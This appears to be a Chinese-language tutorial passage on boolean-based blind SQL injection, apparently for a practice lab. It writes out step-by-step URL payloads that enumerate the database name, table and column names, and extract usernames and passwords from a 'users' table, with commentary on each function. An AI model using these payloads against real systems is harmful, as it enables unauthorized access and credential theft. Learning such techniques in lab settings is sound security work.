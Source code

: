 ```
?id=1'and length((select database()))>9--+
#大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
?id=1'and ascii(substr((select database()),1,1))=115--+
#substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
 
 
?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
判断所有表名字符长度。
?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
逐一判断表名
 
?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
判断所有字段名的长度
?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
逐一判断字段名。
 
 
?id=1' and length((select group_concat(username,password) from users))>109--+
判断字段内容长度
?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
逐一检测内容。
 
 ```
&emsp;&emsp;要根据注释去修改数值和属性。（建议手打和尝试修改后的变化，更加有印象）<font color=red>注:这是闭合符的判断还是和前面的一样。</font>
&emsp;&emsp;这里是用等于号测试的，<font color=blue>细节1:先测试1=1为真的回显，再看length执行的时候为真的页面，这里等于8是说明数据库的长度为8</font>
![sql5-length](/images/sql/sql5-length.png)
